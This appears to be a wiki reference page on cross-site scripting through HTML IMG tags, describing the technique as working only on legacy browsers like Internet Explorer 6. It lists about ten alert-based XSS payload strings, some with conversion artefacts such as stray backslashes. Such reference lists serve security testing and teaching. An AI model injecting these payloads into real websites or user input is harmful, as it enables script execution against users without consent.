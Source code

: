 ## Description

It is possible for an attacker to execute JavaScript via HTML IMG tags.
This is also referred to as XSS (Cross-Site Scripting). However, this
type of attack is no longer possible on modern browsers. It has been
tested as working on Internet Explorer (IE) 6 running on Windows XP.

## Examples

The following are methods an attacker can use in order to execute
Javascript but will not be effective against modern browsers.

<IMG SRC="javascript:alert('Vulnerable');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
\<IMG SRC=\`javascript:alert("RSnake says,
'XSS'")\`\>
\<IMG """\>

<SCRIPT>

alert("XSS")

</SCRIPT>

"\>
\<IMG
SRC=<javascript:alert(String.fromCharCode(88,83,83>))\>
\<IMG
SRC=<javascript:alert('XSS'>;)\>

## Related Threats

## Related Attacks

[XSS Attacks](XSS_Attacks "wikilink")

## Related Vulnerabilities

## Related Countermeasures

## Categories

[Category:Injection Attack](Category:Injection_Attack "wikilink")